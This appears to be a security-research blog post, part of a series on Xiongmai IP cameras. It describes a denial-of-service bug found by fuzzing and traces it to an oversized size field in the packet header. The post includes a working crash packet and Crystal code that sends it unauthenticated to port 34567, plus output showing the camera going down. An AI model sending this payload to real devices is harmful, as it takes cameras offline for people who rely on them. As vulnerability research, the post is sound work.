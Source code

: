 ```yaml
---
layout: post
title:  "Xiongmai - An Investigative Journey 9 - Denial of Service"
date:   2019-09-04 08:00:00 +0100
tags: xiongmai, hacking, ipc
permalink: /xiongmai/9
---
```

During my fuzzing with Radamsa I uncovered a DoS that would take my camera down via the unprivileged user account. Lets find out exactly what caused the crash!

The first thing I did was backup the string, then I cut pieces out until the crash stopped working.

The first thing I did was cut out the "message" portion of the packet, the DoS still worked. After, I started removing bits of the header, which was also the wrong size. I also changed values in it to see what caused caused the crash and what didn't. I found that a size field over 0x80000000 would cause the crash.

<pre><code class="crystal">
crash_string = "\xFF" + ("\x00"*13) + "\x85\x05" + "\x00\x00\x00\x80"
</code></pre>

This could mean a couple things, but most likely that someone used a signed variable for an unsigned integer, since size can never be below 0, this could cause an integer overflow error of some kind, most likely because the program is trying to read in a message size, either far beyond what was expected, or in the negative, causing a crash.

Currently, the exploit uses the magic for OPMonitor, but this vulnerability should affect any command we are allowed to access, and since the "login" command is the most unprivilieged, that should be the next target.

<pre><code class="crystal">
crash_string = "\xFF" + ("\x00"*13) + "\xe8\x03" + "\x00\x00\x00\x80"
socket = MagicSocket.new("192.168.11.109", 34567)
#socket.login "default", Dahua.digest("tluafed")
socket.send crash_string
puts "SENT: #{crash_string.inspect}"
reply = socket.receive_message
puts "GOT: #{reply.message}"
</code></pre>

This produces:

<pre><code>
SENT: "\xFF\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\u0000\xE8\u0003\u0000\u0000\u0000\x80"

Unhandled exception:  (MagicError::ReceiveEOF)
  from src/magic_fuzzer/magic_socket.cr:0:7 in 'receive_message'
  from src/sandbox.cr:69:1 in '__crystal_main'
  from /usr/share/crystal/src/crystal/main.cr:97:5 in 'main_user_code'
  from /usr/share/crystal/src/crystal/main.cr:86:7 in 'main'
  from /usr/share/crystal/src/crystal/main.cr:106:3 in 'main'
  from __libc_start_main
  from _start
  from ???
</code></pre>

The ReceiveEOF proves that the socket closed and the server went down.

The camera will go down for about 2 minutes, while still responding to pings for a short period of time while it reboots. The client cannot connect during this reboot period.

<iframe width="616" height="380" src="https://www.youtube.com/embed/SnyPJtDDMFQ" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>